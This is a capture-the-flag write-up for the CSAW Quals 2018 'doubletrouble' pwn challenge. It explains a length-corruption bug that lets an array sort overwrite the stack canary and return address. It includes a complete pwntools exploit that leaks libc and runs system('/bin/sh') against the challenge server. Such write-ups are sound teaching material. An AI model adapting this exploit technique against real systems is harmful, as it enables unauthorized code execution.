 ```yaml
---
title: CSAW Quals 18 - doubletrouble
date: '2018-09-17'
lastmod: '2019-04-07T13:46:27+02:00'
categories:
- writeup
- csawquals18
tags:
- pwn
- csaw
authors:
- malweisse
---
```


The core function is the following:

```c
int game()
{
  int v0;
  long double sum;
  long double max;
  long double min;
  int v4;
  int how_long;
  int idx;
  char *s;
  double array[64];
  unsigned int v10;

  canary = __readgsdword(0x14u);
  printf("%p\n", array);  // Stack address leak
  printf("How long: ");
  __isoc99_scanf("%d", &how_long);
  getchar();
  if ( how_long > 64 )
  {
    printf("Flag: hahahano. But system is at %d", &system);
    exit(1);
  }
  idx = 0;
  while ( idx < how_long )
  {
    s = malloc(100u);
    printf("Give me: ");
    fgets(s, 100, stdin);
    v0 = idx++;
    array[v0] = atof(s);
  }
  printArray(&how_long, array);
  sum = sumArray(&how_long, array);
  printf("Sum: %f\n", sum);
  max = maxArray(&how_long, array);
  printf("Max: %f\n", max);
  min = minArray(&how_long, array);
  printf("Min: %f\n", min);
  v4 = findArray(&how_long, array, -100.0, -10.0);
  printf("My favorite number you entered is: %f\n", array[v4]);
  sortArray(&how_long, array);
  puts("Sorted Array:");
  return printArray(&how_long, array);
}
```

The programs store the readed doubles in an array on the stack.
The array is 532 bytes from the return address, so 64 entries are not enough for a buffer overflow.

The findArray function is interesting, a correct manipulation of the input can change the how_long variable.

```c
int findArray(int *len, double *arr, double a, double b)
{
  int saved_len;

  saved_len = *len;
  while ( *len < 2 * saved_len )
  {
    if ( arr[*len - saved_len] > a && b > arr[*len - saved_len] )
      return *len - saved_len; // Here *len is not restored to saved_len
    *len += &GLOBAL_OFFSET_TABLE_ - 134529023; //*len += 1
  }
  *len = saved_len; // We want to avoid this piece of code
  return 0;
}
```

Giving a number greater than -10 `*len` is increased and with a number greater than -100 and lower than -10 we can avoid the restring of `*len` with `saved_len`.

We choose -1.1 and -20.1.

With `how_long` greater than 64 the sortArray procedure will sort our input and the values that are on the stack after the array, like the canary and the return address.

The binary addresses casted to double are sorted after -1.1.

To exploit the vulnerability we need to place the canary in the same position before and after the sorting so it must start with 0x00b.
Due to this requirement the exploit must be runned many times to work.

Here the exploit:

```python
#!/usr/bin/env python

from pwn import *

LIBC_NAME = "./libc6_2.27-3ubuntu1_i386.so" # found on libc database using system (0x200)

def pdouble(f):
    return struct.pack('<d', f)

def double_to_hex(f):
    return hex(struct.unpack('<Q', struct.pack('<d', f))[0])

def int_to_double(i):
    return struct.unpack('<d', p64(i))[0]

def hex_to_double(h):
    return struct.unpack('<d', h.decode("hex")[::-1])[0]

libc = ELF(LIBC_NAME)

while True:
    #p = process("./doubletrouble", env={"LD_PRELOAD": LIBC_NAME})
    p = remote("pwn.chal.csaw.io", 9002)

    try:

        ### STAGE 1 - leak libc a restart main

        stack = int(p.recvline(False), 16)

        l = 64
        p.sendafter("How long: ", str(l) + "\n")

        p.sendafter("Give me: ", repr(int_to_double(0x8049506FFE26D6C)) + "\n") #main = 0x8049506
        p.sendafter("Give me: ", repr(int_to_double(0x8049506FFE26D6C)) + "\n")

        for i in xrange(3):
            p.sendafter("Give me: ", "-1.1\n")

        for i in xrange(l -5):
            p.sendafter("Give me: ", "-20.1\n")

        p.recvuntil("Sorted Array:")
        p.recvuntil("0:")

        off = 0xf7f8bfff - 0xF7DB4000

        libc.address = u32(pdouble(float(p.recvline(False)))[4:]) - off
        if libc.address & 1 == 1:
            libc.address -= 1

        print "LIBC: ", hex(libc.address), hex(libc.symbols["system"])[2:]

        p.recvuntil("68:") + p.recvline(False)


        ### STAGE 2 - execute system("/bin/sh")

        stack = int(p.recvline(False), 16)

        l = 64
        p.sendafter("How long: ", str(l) + "\n")

        v = hex_to_double(("0804900a0804900a")) #0x0804900a : ret
        p.sendafter("Give me: ", repr(v) + "\n")

        v = hex_to_double("0804A0D5" + hex(libc.symbols["system"])[2:])
        p.sendafter("Give me: ", repr(v) + "\n")

        bin_sh = libc.address + 0x17e0cf
        v = hex_to_double(("09049786" + hex(bin_sh)[2:]))
        p.sendafter("Give me: ", repr(v) + "\n")

        for i in xrange(2):
            p.sendafter("Give me: ", "-1.1\n")

        for i in xrange(l -5):
            p.sendafter("Give me: ", "-20.1\n")

        p.recvuntil("Sorted Array:")
        p.recvuntil("0:")

        p.interactive()
        p.close()
    except KeyboardInterrupt:
        p.close()
        exit()
    except Exception:
        p.close()
        continue
```
